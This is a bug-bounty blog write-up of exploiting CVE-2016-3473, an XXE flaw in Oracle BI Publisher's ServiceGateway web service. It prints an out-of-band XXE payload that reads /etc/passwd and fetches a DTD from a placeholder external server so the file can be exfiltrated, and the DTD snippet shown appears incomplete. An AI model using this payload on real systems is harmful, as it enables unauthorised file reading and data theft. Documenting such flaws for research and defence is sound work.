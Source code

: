 ```yaml
---
layout: post
title: CVE-2016-3473
categories: [general]
tags: [cve]
comments: true
---
```


Having nearly zero organizational skills absolutely dictates I put things somewhere that I can’t lose them. This post is being published mostly for the sake of documenting CVE-2016-3473 for myself and if it helps anyone else save five minutes well that’s fantastic! 

Alright. So another late night yielded a nice Bounty submission on a program that was over a year old when I was invited to participate. The scope was a single web application and during the course of manually browsing the full contents of the site the following login page was discovered:

![0-Oracle-BI-Publisher.png]({{site.baseurl}}/assets/media/posts/oracle-bi/0-Oracle-BI-Publisher.png)

Pay attention to the next step in this sequence as it shows an expert tip that can only help everyone out there. So, the next step (yes the expert tip) was in a web browser I opened https://www.google.com and in the search box I typed “oracle bi publisher exploits”. Next level recon here I know. The first hit on Google was [Exploit-DB](https://www.exploit-db.com/exploits/40590/) and better yet this was for the version I found. Despite the exploit published by Jakub Palaczynski being classified as “Waiting verification”, this gave quite the helpful framework to my exploit efforts as can be seen below.

![1-Oracle-BI-exploit-db.png]({{site.baseurl}}/assets/media/posts/oracle-bi/1-Oracle-BI-exploit-db.png)

Unfortunately, it required some (Not complaining, since it required barely any) work to get this done. The rest of this (except any tangents) will show what it took to bring this home.

Browsing to https://Vulnerable-URL/xmlpserver/services/ServiceGateway?wsdl showed the WSDL that was vulnerable to CVE-2016-3473.


![2-Oracle-BI-wsdl.png]({{site.baseurl}}/assets/media/posts/oracle-bi/2-Oracle-BI-wsdl.png)

Next, major props must go to Eric Gruber for the awesome “Wsdler” Burp extension. “Wsdler” absolutely makes it less painful when attacking WSDLs, so use it (unless you are into that). Parsing the WSDL with “Wsdler” created two requests that could be sent to Burp Repeater for further shenannigans. Both actions can be exploited, but we will only be exploiting the “replytoXMLWithContext” operation. OK, exploitation time.

1. Replace the placeholder inserted by “Wsdler” with our payload.

    ```
    <![CDATA[<?xml version="1.0"?><!DOCTYPE r [<!ENTITY % data3 SYSTEM "file:///etc/passwd"><!ENTITY % sp SYSTEM "http://<Our-External-Server>/ss5.dtd">%sp;%param3;%exfil;]>]]>
    ```

    ![3-Oracle-BI-xxe-burp-payload-replyToXML.png]({{site.baseurl}}/assets/media/posts/oracle-bi/3-Oracle-BI-xxe-burp-payload-replyToXML.png)


2. Create a DTD file with the contents of our DTD (novel concept I know) and make sure that it is hosted within the web root of an external web server (Preferably one you own and can control) and start a webserver on port 80 to serve said DTD file.

    ```
    <!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///%data3;">'>
    ```
3. Send the edited request. This will make a request to the external server hosting our aforementioned DTD file and should return the contents of “/etc/passwd” from Oracle BI.

    ![4-Oracle-BI-xxe-apache.png]({{site.baseurl}}/assets/media/posts/oracle-bi/4-Oracle-BI-xxe-apache.png)

4. And /etc/passwd:

    ![5-Oracle-BI-xxe-etc-passwd.png]({{site.baseurl}}/assets/media/posts/oracle-bi/5-Oracle-BI-xxe-etc-passwd.png)

Undoubtedly there is a better XXE payload/solution to exploit this, but in any event here is a fully functional, working exploit. If you know a better way to do it, please school me / make fun of me / troll me to tears on Twitter @hateshaped!
